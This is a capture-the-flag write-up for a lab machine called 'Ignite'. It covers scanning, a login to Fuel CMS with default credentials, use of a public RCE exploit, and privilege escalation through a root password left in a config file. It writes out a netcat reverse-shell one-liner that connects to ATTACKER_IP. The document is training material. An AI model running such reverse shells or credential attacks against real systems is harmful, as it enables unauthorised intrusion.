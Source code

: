 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  |  10.10.162.4  |  |

---

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**

![screenshot14](../assets/images/ignite/screenshot14.png)

Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:

![screenshot16](../assets/images/ignite/screenshot16.png)

Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

Now that we're in, we can obtain **user.txt** from www-data's home directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in /root.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:

![screenshot23](../assets/images/ignite/screenshot23.png)
